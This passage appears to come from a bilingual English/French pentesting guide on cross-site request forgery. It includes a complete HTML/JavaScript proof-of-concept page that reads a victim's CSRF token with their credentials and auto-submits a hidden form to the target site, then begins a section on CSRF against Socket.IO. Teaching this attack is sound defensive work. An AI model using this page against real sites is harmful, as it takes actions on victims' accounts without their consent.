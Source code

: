 In this example, the attacker creates a form with the stolen CSRF token and sets the action to the target website's URL. The form includes hidden fields for the CSRF token and the desired action, such as deleting the victim's account.

Dans cet exemple, l'attaquant crée un formulaire avec le jeton CSRF volé et définit l'action sur l'URL du site cible. Le formulaire comprend des champs masqués pour le jeton CSRF et l'action souhaitée, telle que la suppression du compte de la victime.

By appending the form to the body and submitting it, the attacker tricks the victim's browser into sending a POST request to the target website with the malicious action and the stolen CSRF token.

En ajoutant le formulaire au corps de la page et en le soumettant, l'attaquant trompe le navigateur de la victime pour qu'il envoie une requête POST au site cible avec l'action malveillante et le jeton CSRF volé.
```markup
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
x.onreadystatechange = function() {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1];
document.getElementById("findtoken").value = token;
document.getElementById("form").submit();
}
}
</script>
```
### CSRF avec Socket.IO

Socket.IO est une bibliothèque JavaScript qui permet la communication en temps réel entre le serveur et le client. Elle est souvent utilisée dans les applications web pour créer des fonctionnalités en temps réel telles que les chats en direct ou les mises à jour en direct.

Cependant, Socket.IO peut également être vulnérable aux attaques de falsification de requête intersite (CSRF). Une attaque CSRF se produit lorsque le navigateur d'un utilisateur authentifié envoie une requête non autorisée à un site web sans que l'utilisateur en soit conscient.

Pour exploiter une vulnérabilité CSRF avec Socket.IO, un attaquant peut utiliser une page web malveillante pour envoyer une requête WebSocket à un serveur Socket.IO. Cette requête peut contenir des instructions malveillantes qui seront exécutées par le serveur.
